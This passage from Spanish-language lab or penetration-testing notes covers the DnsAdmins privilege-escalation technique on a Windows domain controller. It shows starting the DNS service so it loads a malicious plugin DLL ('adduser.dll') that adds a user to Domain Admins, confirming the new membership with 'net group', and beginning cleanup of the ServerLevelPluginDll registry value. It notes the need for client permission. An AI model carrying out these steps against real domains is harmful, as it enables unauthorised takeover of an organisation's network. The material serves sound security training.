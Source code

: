 **Iniciar:**

```cmd
sc start dns
```

* `sc start <servicio>` arranca el servicio y la salida puede mostrar `STATE: START_PENDING` y el `PID` del proceso si arranca.
* Al arrancar, el servicio intentará cargar la DLL configurada. Si la DLL provoca errores o no existe, el servicio puede quedarse en fallo (por eso el texto advierte que al principio puede fallar hasta limpiar la configuración).

---

## Confirmar que el exploit funcionó

* Tras reinicio exitoso, si la DLL ejecutaba `net group "Domain Admins" ...` deberíamos ver al usuario añadido al grupo `Domain Admins`.
* Comando para listar miembros del grupo Domain Admins en el dominio:

```cmd
net group "Domain Admins" /domain

Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-------------------------------------------------------------------------------
Administrator            netadm
The command completed successfully.
```

---

## Revertir cambios

**Por qué es crítico:** modificar la configuración y reiniciar DNS en un DC puede derribar resolución de nombres para todo el dominio; hay que tener **permiso explícito del cliente**.

Pasos para limpiar según el texto (desde una consola elevada con cuenta admin):

1. **Comprobar la clave en registro**

```cmd
reg query \\\\10.129.43.9\\HKLM\\SYSTEM\\CurrentControlSet\\Services\\DNS\\Parameters


HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\DNS\Parameters
    GlobalQueryBlockList    REG_MULTI_SZ    wpad\0isatap
    EnableGlobalQueryBlockList    REG_DWORD    0x1
    PreviousLocalHostname    REG_SZ    WINLPE-DC01.INLANEFREIGHT.LOCAL
    Forwarders    REG_MULTI_SZ    1.1.1.1\08.8.8.8
    ForwardingTimeout    REG_DWORD    0x3
    IsSlave    REG_DWORD    0x0
    BootMethod    REG_DWORD    0x3
    AdminConfigured    REG_DWORD    0x1
    ServerLevelPluginDll    REG_SZ    adduser.dll
```
